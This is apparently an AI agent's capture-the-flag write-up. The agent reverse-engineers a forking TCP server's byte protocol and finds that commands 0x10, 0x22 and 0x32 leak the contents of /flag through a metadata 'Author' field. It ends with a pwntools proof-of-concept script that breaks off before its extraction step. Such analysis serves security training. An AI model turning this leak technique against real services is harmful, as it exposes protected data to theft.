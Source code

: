 Decompiling key command handlers around 0x45A0F0/0x45A310/0x45A700 and a couple later ones to identify parsing and potential data exfiltration. Then I’ll run the server locally and exercise it with `poc_ncif.py` to observe behavior.

I’m going to decompile more protocol handlers and helpers (privilege drop, timer) and find where send/recv are used to pinpoint exfil paths, all at once.

I’m going to decompile the parser and relevant helpers: the “verrryyy_interesting” function, serialization helpers, and the functions that appear to return metadata and properties (4610D0, 4611D0, 4611F0, 460650), to see where the flag pointer `off_51C2E0` might be included in outputs. I’ll also open the container creation and serialization functions used in responses. Then I’ll look at the send helpers to confirm how data is returned.

### Key findings
- The binary is a forking TCP server on PORT (default 4265; env override). It drops privileges (`getpwnam`, `setgroups`, setgid/setuid) and enforces a 16s alarm per-connection.
- On each connection, before handling commands, it loads the contents of `/flag` into a global string buffer `off_51C2E0`:
  - `idk_what_this_is_man` → sets path to "/flag", reads it, stores pointer into `off_51C2E0`.
- Protocol is a byte-oriented command loop with a small handshake:
  - Send 0x10 first to “enable” the session (sets `gap1[0]=1`, replies with 1-byte ack).
  - Then send commands; 0x11 ends the session.
- The big dispatcher `func_with_huge_switch` contains many commands. The critical exfil path:
  - 0x22: creates/ selects a default entry. It builds a new object where:
    - type byte at +32 = 1, and its “Author” field is set to `off_51C2E0` (the flag).
    - “Software” is set to "ico v0.1".
  - 0x32: returns a packaged metadata block containing:
    - "Author" → directly the string at +40 (which is the flag)
    - "Comment" (only if previously set via 0x31)
    - "Software" → the string at +72
    - It requires one extra byte after 0x32 (any small value; used as a dimension).
  - The server sends blocks as: 1-byte tag + 2-byte little-endian length + payload via `sub_459350`.

### Minimal exploit sequence (no upload required)
- Send 0x10
- Send 0x22
- Send 0x32 0x01
- Read the response; it contains the “Author” field whose value is the contents of `/flag`.

### Quick PoC
```python
from pwn import remote  # type: ignore
import os, sys, time

host = os.environ.get("HOST", "127.0.0.1")
port = int(os.environ.get("PORT", "4265"))

io = remote(host, port)

# handshake
io.send(b"\x10")       # enable
time.sleep(0.05)

# create default entry that copies /flag into "Author"
io.send(b"\x22")
time.sleep(0.05)

# request metadata bundle: Author (flag), Software, (Comment if set)
io.send(b"\x32" + b"\x01")   # 0x01 arbitrary small param

data = io.recv(timeout=2) or b""
print(f"len={len(data)} hex={data.hex()}")

# Heuristic extract: look for ASCII 'Author' then next string-ish bytes
```